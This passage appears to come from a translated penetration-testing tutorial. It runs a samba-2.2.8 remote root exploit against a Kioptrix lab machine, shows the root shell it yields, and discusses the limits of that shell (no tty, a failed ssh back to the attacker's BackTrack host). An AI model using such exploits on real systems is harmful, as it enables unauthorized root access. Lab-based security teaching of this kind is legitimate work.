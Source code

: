 ```
# ./SambaVuln_10 -b 0 192.168.75.14 

```

```
samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
--------------------------------------------------------------
+ Bruteforce mode. (Linux)
+ Host is running samba.
+ Worked!
--------------------------------------------------------------
*** JE MOET JE MUIL HOUWE
Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
uid=0(root) gid=0(root) groups=99(nobody)

```

### 已连接，现在该怎么办？

现在我们远程连接后，开始收集有关系统的数据变得很重要。

### 注意

请注意，您的远程 shell 的功能并不等同于您的标准 Linux shell 的功能。

您可能已经注意到您没有收到命令提示符。查看您连接到的`tty`：

```
tty

```

```
not a tty

```

由于您当前正在以 root 身份运行，大多数我们想要访问的命令都将可用：

```
# whoami 

```

```
root

```

例如，如果您想直接连接回您的 BackTrack（`192.168.75.25`）机器使用 SSH，您可能会遇到这样的问题：

```
# ssh 192.168.75.25 

```

```
Pseudo-terminal will not be allocated because stdin is not a terminal.
Aborted by user!

```
